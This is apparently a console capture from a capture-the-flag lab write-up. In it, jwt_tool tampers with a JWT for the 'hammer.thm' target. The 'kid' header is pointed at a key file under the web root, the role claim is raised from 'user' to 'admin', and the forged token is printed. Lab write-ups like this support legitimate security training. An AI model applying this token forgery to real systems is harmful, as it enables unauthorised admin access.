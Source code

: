 ```console
> 3

Current value of kid is: /var/www/mykey.key
Please enter new value and hit ENTER
> /var/www/html/188ade1.key
...

[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
...
[5] data = JSON object:
    [+] user_id = 1
    [+] email = "tester@hammer.thm"
    [+] role = "user"
...

Please select a field number:
(or 0 to Continue)
> 5

Please select a sub-field number for the data claim:
(or 0 to Continue)
[1] user_id = 1
[2] email = tester@hammer.thm
[3] role = user
...
> 3

Current value of role is: user
Please enter new value and hit ENTER
> admin
...

[0] Continue to next step
> 0
...

[0] Continue to next step
> 0

Signature unchanged - no signing method specified (-S or -X)
jwttool_9c6531ec0a569612bae8d8f0ddc91457 - Tampered token:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzI1MjE0MDc0LCJleHAiOjE3MjUyMTc2NzQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.F9cMQWLXA68pD7ouNbg7DEroxENwPEXf9U9qlx1G7cc
```

